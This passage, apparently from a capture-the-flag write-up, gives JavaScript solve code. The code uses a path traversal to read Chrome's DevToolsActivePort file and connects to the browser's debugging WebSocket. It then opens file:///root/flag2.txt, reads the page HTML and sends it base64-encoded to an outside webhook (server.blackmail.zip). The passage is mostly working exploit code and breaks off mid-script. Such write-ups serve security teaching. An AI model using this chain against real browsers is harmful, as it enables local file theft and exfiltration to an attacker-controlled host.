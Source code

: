 ```js
else if (data && data.id >= 4) {
  if (data.result && data.result.result && data.result.result.value) {
    const content = data.result.result.value;
    if (content.includes('PWNME')) {
      fetch(`${webhook}?found=PWNME&content=${btoa(content)}`);
      ws.close();
    } else  {
      setTimeout(checkContent, 1000);
    }
  } else {
    setTimeout(checkContent, 1000);
  }
}
...
function checkContent() {
  if (sessionId) {
    checkAttempts++;
    const evaluateCommand = {
      id: 4 + checkAttempts,
      method: 'Runtime.evaluate',
      params: {
        expression: 'document.documentElement.outerHTML',
        returnByValue: true
      },
      sessionId: sessionId
    };
    ws.send(JSON.stringify(evaluateCommand));
  }
}
...
```

So now it will setup this `checkContent()` function in the `enable` command, then check the content for the response, if it doesn't contain `PWNME` wait a second and go again until we find it!


## The Solve!

```js
(async () => {
  let res = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort', {
    cache: 'no-cache'
  });
  let text = await res.text();
  console.log(text);
  const lines = text.trim().split('\n');
  const port = parseInt(lines[0].trim(), 10);
  let path = lines[1].trim();
  const wsUrl = `ws://localhost:${port}${path}`;
  let ws;
  const webhook = `https://server.blackmail.zip/`;
  ws = new WebSocket(wsUrl);
  let targetId = null;
  let sessionId = null;
  let checkAttempts = 0;

  ws.onopen = () => {
    const createTargetCommand = {
      id: 1,
      method: 'Target.createTarget',
      params: { url: "file:///root/flag2.txt" }
    };
    ws.send(JSON.stringify(createTargetCommand));
    fetch(`${webhook}?openedWS`);
```